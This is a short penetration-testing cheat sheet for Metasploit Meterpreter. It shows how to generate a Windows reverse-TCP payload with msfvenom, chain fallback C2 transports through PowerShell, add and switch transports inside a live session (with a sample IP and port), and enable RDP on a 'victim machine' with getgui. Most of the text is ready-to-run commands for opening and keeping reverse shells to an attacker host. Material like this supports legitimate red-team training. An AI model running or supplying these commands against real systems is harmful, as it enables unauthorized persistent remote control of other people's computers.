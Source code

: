 ```
Add-TcpTransport -lhost <host> -lport <port> -RetryWait 10 -RetryTotal 30
Add-WebTransport -Url https://<host>:<port>;-RetryWait 10 -RetryTotal 30
Add-WebTransport -Url http://<host>:<port>;-RetryWait 10 -RetryTotal 30
```

#### The command line for this would be:

```
msfvenom -p windows/meterpreter_reverse_tcp lhost=<host> lport=<port> sessionretrytotal=30 sessionretrywait=10 extensions=stdapi,priv,powershell extinit=powershell,/home/ionize/AddTransports.ps1 -f exe
```

#### Some got chas to be aware of:

* Make sure you include the full path to the extinit parameter (relative paths don’t appear to work)
* Ensure you configure how long to try each transport before moving on to the next.
* RetryWait is the time to wait between each attempt to contact the C2 server
* RetryTotal is the total amount of time to wait before moving on to the next transport
* Note that the parameter names for retry times and timeouts are different between the PowerShell bindings and the Metasploit parameters themselves:
  * in the PowerShell extension, they are RetryWait and RetryTotal; in Metasploit they are SessionRetryWait and SessionRetryTotal (a tad confusing, as they relate to transports, not sessions)

### <mark style="color:orange;">Manually Creating Transport in Meterpreter Session</mark>

```
transport add -t [transport type, i.e: reverse_https] -l [lhost] -p [lport] -T [retry total time] -W [retry wait] -C [comm timeout] 
transport add -l 192.168.56.1 -p 7878 -t reverse_https -T 3000 -W 10 -C 1000000
```

#### to move to another transport background the current session and run the right payload with options same as the target transport and wait for connection.

#### once you have more than one transfport its safe to use this command to move between transports:

```
transport next
transport prev
```

## <mark style="color:red;">Enable RDP</mark>

enable RDP on victim machine use rdesktop to connect

```
run getgui -e
```

## <mark style="color:red;">Script Automation</mark>
